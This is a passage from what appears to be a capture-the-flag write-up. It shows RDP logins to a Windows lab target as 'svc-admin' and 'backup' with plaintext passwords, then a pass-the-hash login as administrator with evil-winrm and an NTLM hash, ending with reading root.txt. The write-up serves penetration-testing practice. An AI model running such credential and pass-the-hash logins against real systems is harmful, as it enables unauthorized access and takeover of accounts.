 ### svc-admin

```bash
xfreerdp /u:svc-admin /p:management2005 /v:IP
```

![SCREEN13](https://github.com/user-attachments/assets/036d510d-bf88-4e41-89d9-850ece7a4226)

---

### backup

```bash
xfreerdp /u:backup /p:backup2517860 /v:IP
```

![SCREEN14](https://github.com/user-attachments/assets/b84f2d3f-02db-4480-866f-6b7756066353)

### Administrator

```bash
evil-winrm -i IP -u administrator -H 0e0363213e37b94221497260b0bcb4fc
cd ../Desktop
more root.txt
```

![SCREEN15](https://github.com/user-attachments/assets/348108d9-6967-4a08-be16-bd42eccf81a6)
